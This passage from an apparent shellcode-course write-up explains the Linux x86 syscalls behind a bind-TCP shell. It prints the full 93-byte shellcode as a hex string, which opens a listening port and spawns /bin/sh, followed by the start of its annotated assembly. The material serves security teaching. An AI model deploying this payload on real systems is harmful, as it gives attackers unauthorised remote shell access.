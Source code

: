 As you can see in the above PoC, in our shellcode we'll need these syscall:

  1. four `sys_socketcall(int call, unsigned long *args)` where int call will be `SYS_SOCKET`, `SYS_BIND`, `SYS_LISTEN` and `SYS_ACCEPT` according to `/usr/include/linux/net.h`;
	
  2. three `sys_dup2(int oldfd, int newfd)`;
	
  3. one `sys_execve(char *filename, char *argv[], char *envp[])` where both `*argv[] and *envp[]` must be null terminated;
  
  4. The last thing I checked (using strace) before start to code is how `(struct sockaddr *) &server_addr` is passed to the syscall.

[![Strace output]({{ site.baseurl }}/images/2014/04/strace_ass1-1024x566.png)]({{ site.baseurl }}/images/2014/04/strace_ass1.png)

The green rectangle translated in pseudo-assembly code become:

  1. `push sin_addr`
	
  2. `push sin_port`
	
  3. `push sa_family`
	
  4. `mov ecx,esp`
	
  5. `push 16`
	
  6. `push ecx`
	
  7. `push newfd`

  8. `mov ecx,esp` now ecx contains the address of `(3, {sa_family, sin_port, sin_addr}, 16)`

And below there is the complete shellcode:

	;Description:	Assignment #1 (Shell_Bind_TCP, 93 bytes)
	;Shellcode:		\x31\xd2\x31\xdb\x6a\x66\x58\x43\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x96\xb0\x66\x43\x52\x66\x68\x1d\x4c\x66\x53\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\xb0\x66\x43\x43\x6a\x01\x56\x89\xe1\xcd\x80\xb0\x66\x43\x52\x52\x56\x89\xe1\xcd\x80\x93\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80
	;Author: 		Paolo Stivanin <https://github.com/paolostivanin>
	;SLAE ID:		526

	global _start
	section .text
	_start:
		;socket(): sys_socketcall(int call, unsigned long *args)
		;eax -> sys_socketcall
		;ebx -> SYS_{SOCKET(1),BIND(2),CONNECT(3),LISTEN(4),ACCEPT(5) /usr/include/linux/net.h}
		;ecx -> args(AF_INET{/usr/include/bits/socket.h -> 2}, SOCK_STREAM{/usr/include/bits/socket_type.h -> 1}, 0)
		xor edx,edx
		xor ebx,ebx
		push BYTE 0x66 	;sys_socketcall
		pop eax
		inc ebx			;SYS_SOCKET
		push edx		;0
		push BYTE 1 	;SOCK_STREAM
		push BYTE 2		;AF_INET
		mov ecx,esp
		int 0x80
		xchg esi,eax
